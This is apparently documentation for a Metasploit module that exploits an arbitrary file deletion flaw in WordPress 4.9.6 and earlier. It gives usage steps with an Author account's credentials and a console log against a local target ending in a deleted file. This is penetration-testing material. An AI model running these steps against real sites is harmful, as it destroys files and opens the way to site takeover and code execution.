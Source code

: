 ## Description

An arbitrary file deletion vulnerability in the WordPress core allows any user with privileges of an 
Author to completely take over the WordPress site and to execute arbitrary code on the server.
 
## Vulnerable Application

WordPress <= 4.9.6

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wp_arbitrary_file_deletion```
2. Do: ```set USERNAME [USERNAME]```
3. Do: ```set PASSWORD [PASSWORD]```
4. Do: ```set RHOSTS [IP]```
5. Do: ```run```

## Scenarios

```
msf5 > use auxiliary/scanner/http/wp_arbitrary_file_deletion 
msf5 auxiliary(scanner/http/wp_arbitrary_file_deletion) > set VERBOSE true
VERBOSE => true
msf5 auxiliary(scanner/http/wp_arbitrary_file_deletion) > set RPORT 8000
RPORT => 8000
msf5 auxiliary(scanner/http/wp_arbitrary_file_deletion) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 auxiliary(scanner/http/wp_arbitrary_file_deletion) > set PASSWORD xxx
PASSWORD => password1
msf5 auxiliary(scanner/http/wp_arbitrary_file_deletion) > set USERNAME xxx
USERNAME => techbrunch
msf5 auxiliary(scanner/http/wp_arbitrary_file_deletion) > run

[*] Checking if target is online and running Wordpress...
[*] Checking access...
[*] Getting the nonce...
[*] Uploading media...
[*] Editing thumb path...
[*] Deleting media...
[+] File deleted!
[*] Auxiliary module execution completed
```